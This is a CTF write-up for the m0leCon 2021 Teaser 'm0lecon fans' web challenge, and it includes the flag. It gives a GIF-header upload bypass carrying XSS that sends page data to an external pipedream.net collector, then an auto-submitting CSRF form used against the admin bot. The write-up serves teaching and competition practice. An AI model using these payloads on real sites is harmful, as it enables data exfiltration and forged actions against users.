






## m0lecon fans - m0leCon CTF 2021 Teaser 
<hr />  
  
#### 1. Get admin subdomain  
  
Bypass with `gif file` file signature to bypass check extension and upload html file. Get DOM content from new feed in home page!!  
Payload was used
  
```
GIF89a
<script>
fetch('https://m0lecon.fans/feed/').then(r=>r.text()).then(d=>window.open('//enzv11vzyh17985.m.pipedream.net?d='+d.match(/<a href=".*\.m0lecon\.fans\/profile\/">/)[0]))
</script>
```  

  
    
Access static file with URL: `https://m0lecon.fans/static/media/posts/<id>.html` and submit that link for admin bot.
  
  
  
Admin subdomain: `https://y0urmuchb3l0v3d4dm1n.m0lecon.fans/`    
  
#### 2. CSRF to follow admin page  
  
Request to follow admin  
  
  
Upload html file via trick above to perform CSRF attack  
Payload was used  
  
```
GIF89a
<h1>hihi</h1>
<form class="" action="https://y0urmuchb3l0v3d4dm1n.m0lecon.fans/profile/request" method="post">
         <input type="hidden" name="id" value="<your-account-id>">
         <input type="submit" value="Accept" class="btn btn-light py-2 ml-3">
</form>
<script>
document.getElementsByTagName('form')[0].submit();
</script>
```
   
  
  
Get that link to submit for admin bot and we followed admin  
  
  
  
Finally, we can flag in title of first post  
  
    
  
Flag: ` ptm{m4k3_CSP_r3ports_gr3a7_4gain!} `  
